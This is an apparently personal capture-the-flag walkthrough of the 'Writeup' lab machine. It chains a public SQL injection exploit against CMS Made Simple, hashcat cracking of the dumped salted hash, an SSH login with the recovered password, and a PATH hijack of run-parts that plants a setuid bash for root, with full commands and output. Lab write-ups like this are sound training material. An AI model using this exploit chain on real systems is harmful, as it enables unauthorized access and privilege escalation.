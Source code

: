 Only port 22 and 80 are open:
```
% nmap -p `cat logs/tcp-simple.nmap | grep open | cut -d/ -f1 | tr "\n" "," | sed "s/,$//"` -sC -sV -Pn -oA logs/nmap-tcpscripts $IP
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-31 17:17 AEST
Nmap scan report for 10.10.10.138
Host is up (0.010s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds

```

We get a username and the hostname thanks to the email address:
![[Pasted image 20210731171508.png]]

```
jkr@writeup.htb
```

We set /etc/hosts in case the virtual hosts are setup. Webpage doesnt change.

We find stuff in robots.txt
![[Pasted image 20210731171725.png]]

By curling the page we can see what software the application is using due to comments:
![[Pasted image 20210731172329.png]]

Found an exploit which works:
```
% searchsploit cms made simple SQL
[...]
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
```

Running it returns a salt username and password:
```
% python 46635.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7

```

Based on the  exploit we get how the hash is generated:
```
% cat 46635.py | grep md5
        if hashlib.md5(str(salt) + line).hexdigest() == password:
```

Using https://hashcat.net/wiki/doku.php?id=example_hashes we can find the hashcat mode to crack this, aka mode 20.

Running hashcat:
```
# hash.txt:
# 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807

% hashcat -m 20 --force hash.txt /usr/share/wordlists/rockyou.txt                  ~/oscp/notes/htb/writeup/exploits
hashcat (v5.1.0) starting...

[...]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9

Session..........: hashcat
Status...........: Cracked
Hash.Type........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Sat Jul 31 17:39:19 2021 (2 secs)
Time.Estimated...: Sat Jul 31 17:39:21 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1906.8 kH/s (0.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4362240/14344385 (30.41%)
Rejected.........: 0/4362240 (0.00%)
Restore.Point....: 4359168/14344385 (30.39%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raymie0506 -> ray061

Started: Sat Jul 31 17:39:07 2021
Stopped: Sat Jul 31 17:39:23 2021
```

We now have a username and password which we can use to login to ssh:
```
% ssh jkr@$IP
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
/usr/bin/xauth:  file /home/jkr/.Xauthority does not exist
jkr@writeup:~$ hostname && ip a && whoami && cat user.txt
writeup
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:2e:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.138/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:2e5b/64 scope link
       valid_lft forever preferred_lft forever
jkr
d4e493fd4068afc9eb1aa6a55319f978
```

Ran linpeas and exploit suggester however nothing much was returned. No valid passwords found. Found a hash in `/etc/apache2/passwords` however couldn't crack it.

The path is weird and has `/usr/local/bin` at the start which suggests that we need to abuse the path hijacking:
```
% echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

```

Running pspy we can see that the application runs a command on ssh login:
_Note: If you have an ssh client config which allows session reuse, then you probably will have to wait for someone else to connect to the box to be able to see it._
```
2021/07/31 05:05:48 CMD: UID=1000 PID=6145   | -bash
2021/07/31 05:05:51 CMD: UID=0    PID=6146   | sshd: [accepted]
2021/07/31 05:05:51 CMD: UID=102  PID=6147   | sshd: [net]
2021/07/31 05:05:56 CMD: UID=0    PID=6148   | sshd: jkr [priv]
2021/07/31 05:05:56 CMD: UID=0    PID=6149   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2021/07/31 05:05:56 CMD: UID=0    PID=6150   | run-parts --lsbsysinit /etc/update-motd.d
2021/07/31 05:05:56 CMD: UID=0    PID=6151   | /bin/sh /etc/update-motd.d/10-uname
2021/07/31 05:05:56 CMD: UID=0    PID=6152   | sshd: jkr [priv]
2021/07/31 05:05:56 CMD: UID=1000 PID=6153   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6154   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6155   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6156   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6157   | -bash
2021/07/31 05:06:00 CMD: UID=1000 PID=6158   | -bash
2021/07/31 05:06:01 CMD: UID=0    PID=6159   | /usr/sbin/CRON
2021/07/31 05:06:01 CMD: UID=0    PID=6160   | /usr/sbin/CRON
2021/07/31 05:06:01 CMD: UID=0    PID=6161   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
```

The following command is vulnerable due to setting the path to a location we can write to and then running a comand without an absolute path. Hence, we can perform path hijacking:
```
% sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

We have write access to `/usr/local/sbin` since we're part of the staff group:
```
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$ ls -dal /usr/local/bin
drwx-wsr-x 2 root staff 20480 Jul 31 05:04 /usr/local/bin

```

Now we can write our exploit to hijack the `run-parts` command.

We write our exploit shellscript which will copy `/bin/bash` to `/tmp` and setuid on it:
```
jkr@writeup:~$ echo '#!/bin/bash' > asdf.sh
jkr@writeup:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' >> asdf.sh
jkr@writeup:~$ chmod +x asdf.sh
jkr@writeup:~$ cp asdf.sh /usr/local/sbin/run-parts
```
	
We just need to login again to trigger the exploit:
```
% ssh jkr@$IP
jkr@10.10.10.138's password:

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jul 31 05:09:56 2021 from 10.10.14.23
jkr@writeup:~$ ls
asdf.sh  CRON  user.txt
jkr@writeup:~$ ls /tmp/
bash  enum  lol.txt  ssh-bswiDlYM8A  ssh-ft19Qjjwpg  vmware-root  vmware-root_1453-3980363984
jkr@writeup:~$ /tmp/bash -p
bash-4.4# whoami && ip a && hostname && cat /root/
.bash_history  .bashrc        bin/           .nano/         .profile       root.txt
bash-4.4# whoami && ip a && hostname && cat /root/root.txt
root
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:2e:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.138/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:2e5b/64 scope link
       valid_lft forever preferred_lft forever
writeup
eeba47f60b48ef92b734f9b6198d7226
```